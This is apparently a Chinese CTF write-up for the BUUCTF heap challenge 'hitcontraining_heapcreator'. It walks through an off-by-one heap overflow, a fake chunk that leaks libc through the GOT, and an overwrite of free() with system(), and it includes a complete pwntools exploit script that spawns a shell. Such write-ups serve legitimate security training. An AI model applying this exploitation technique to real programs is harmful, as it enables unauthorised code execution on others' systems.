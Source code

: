 ```yaml
---
title: 'hitcontraining_heapcreator'
date: 2024-04-26 13:00:00 +0800
categories: [uaf,off_by_one,heapoverflow]
tags: [ctf,pwn]
---
```

 [[BUUCTF](https://buuoj.cn/challenges#hitcontraining_heapcreator)]hitcontraining_heapcreator

`UAF`|`Off-By-One`|`堆溢出`

对应`libc`版本`libc6_2.23-0ubuntu9_amd64`

```shell
[*] '/home/bamuwe/heapcreator/heapcreator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fc000)
```

```shell
bamuwe@bamuwe:~/heapcreator$ ./heapcreator
--------------------------------
          Heap Creator
--------------------------------
 1. Create a Heap
 2. Edit a Heap
 3. Show a Heap
 4. Delete a Heap
 5. Exit
--------------------------------
Your choice :
```

```c
unsigned __int64 edit_heap()
{
  int v1; // [rsp+Ch] [rbp-14h]
  char buf[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index :");
  read(0, buf, 4uLL);
  v1 = atoi(buf);
  if ( v1 >= 0xA )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *(&heaparray + v1) )
  {
    printf("Content of heap : ");
    read_input(*(*(&heaparray + v1) + 1), **(&heaparray + v1) + 1LL);	//漏洞点
    puts("Done !");
  }
  else
  {
    puts("No such heap !");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
> 漏洞函数
```python
def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))
```

> 交互函数

思路：

通过`off-by-one`构造`fakechunk`,利用`fakechunk`泄露`libc`，更换`free()`地址为`system()`，得到`shell`

```python
add(0x18,b'0000')   		#0
add(0x10,b'1111')   		#1
add(0x10,b'2222')   		#2
add(0x10,b'/bin/sh\x00')    #3
edit(0,b'A'*0x18+p8(129))
```

![image-20240426165211798](../assets/img/old_imgs/image-20240426165211798.png)

> 运行后截图

可以发现已经溢出了一字节`（0x81）`，将这个`chunk1`释放，再申请回来就能够通过这个`chunk1`编辑其他`chunk`的内容

```python
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
```

![image-20240426170324709](../assets/img/old_imgs/image-20240426170324709.png)

> 运行后截图

![image-20240426170524597](../assets/img/old_imgs/image-20240426170524597.png)

对比可以更改了原来的`BK`伪造出`fake_chunk`，即此时的`chun2`已经是`free()`的地址

![image-20240426171126423](../assets/img/old_imgs/image-20240426171126423.png)

继续计算出`system()`的值并且替换`free()`

```python
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
```

![image-20240426171632077](../assets/img/old_imgs/image-20240426171632077.png)

> 测试用多打印一次`chunk2`的内容

再`free(3)`就能构造出`system(/bin/sh)`得到`shell`

exp:

```python
from pwn import *
# context.log_level = 'debug'
io = gdb.debug('./heapcreator')
elf = ELF('./heapcreator')
lib = ELF('#####')

def add(size,content):
    io.sendlineafter(b'choice :',b'1')
    io.sendlineafter(b'Size of Heap :',str(size))
    io.sendlineafter(b'Content of heap:',content)
    
def free(idx):
    io.sendlineafter(b'choice :',b'4')
    io.sendlineafter(b'Index :',str(idx))

def edit(idx,content):
    io.sendlineafter(b'choice :',b'2')
    io.sendlineafter(b'Index :',str(idx))
    io.sendlineafter(b'Content of heap :',content)
    
def show(idx):
    io.sendlineafter(b'choice :',b'3')  
    io.sendlineafter(b'Index :',str(idx))

add(0x18,b'0000')   #chunk0
add(0x10,b'1111')   #chunk1
add(0x10,b'2222')   #chunk2/fake_chunk
add(0x10,b'/bin/sh\x00')    #chunk3

edit(0,b'A'*0x18+p8(129))
free(1)
add(0x70,b'A'*0x40+p64(0xdeadbeef)+p64(elf.got['free']))
show(2)
io.recvuntil("Content : ")
free_addr=u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
success(hex(free_addr))
libc_base = free_addr-0x83a70
sys_addr = lib.sym['system']+libc_base
edit(2,p64(sys_addr))
free(3)
io.interactive()
```

tips:

关于`libc_base`计算小技巧

```python
success(hex(free_addr))
libc_base = free_addr-0x83a70	#0x83a70从何而来？
```

![image-20240426172143920](./../../AppData/Roaming/Typora/typora-user-images/image-20240426172143920.png)

